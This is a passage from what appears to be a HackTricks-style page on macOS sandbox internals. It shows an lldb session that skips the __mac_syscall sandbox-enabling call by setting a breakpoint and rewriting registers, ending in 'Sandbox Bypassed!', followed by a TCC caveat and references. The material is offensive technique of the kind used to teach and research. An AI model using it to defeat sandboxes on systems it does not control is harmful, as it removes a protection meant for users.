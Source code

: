 ```bash
# To bypass the sandbox we need to skip the call to __mac_syscall
# Lets put a breakpoint in __mac_syscall when x1 is 0 (this is the code to enable the sandbox)
(lldb) breakpoint set --name __mac_syscall --condition '($x1 == 0)'
(lldb) c

# The 1 arg is the name of the policy, in this case "Sandbox"
(lldb) memory read -f s $x0
0x19300eb22: "Sandbox"

#
# BYPASS
#

# Due to the previous bp, the process will be stopped in:
Process 2517 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
    frame #0: 0x0000000187659900 libsystem_kernel.dylib`__mac_syscall
libsystem_kernel.dylib`:
->  0x187659900 <+0>:  mov    x16, #0x17d
    0x187659904 <+4>:  svc    #0x80
    0x187659908 <+8>:  b.lo   0x187659928               ; <+40>
    0x18765990c <+12>: pacibsp

# To bypass jump to the b.lo address modifying some registers first
(lldb) breakpoint delete 1 # Remove bp
(lldb) register write $pc 0x187659928 #b.lo address
(lldb) register write $x0 0x00
(lldb) register write $x1 0x00
(lldb) register write $x16 0x17d
(lldb) c
Process 2517 resuming
Sandbox Bypassed!
Process 2517 exited with status = 0 (0x00000000)
```

> [!WARNING] > **Even with the Sandbox bypassed TCC** will ask the user if he wants to allow the process to read files from desktop

## References

- [http://newosxbook.com/files/HITSB.pdf](http://newosxbook.com/files/HITSB.pdf)
- [https://saagarjha.com/blog/2020/05/20/mac-app-store-sandbox-escape/](https://saagarjha.com/blog/2020/05/20/mac-app-store-sandbox-escape/)
- [https://www.youtube.com/watch?v=mG715HcDgO8](https://www.youtube.com/watch?v=mG715HcDgO8)

{{#include ../../../../../banners/hacktricks-training.md}}


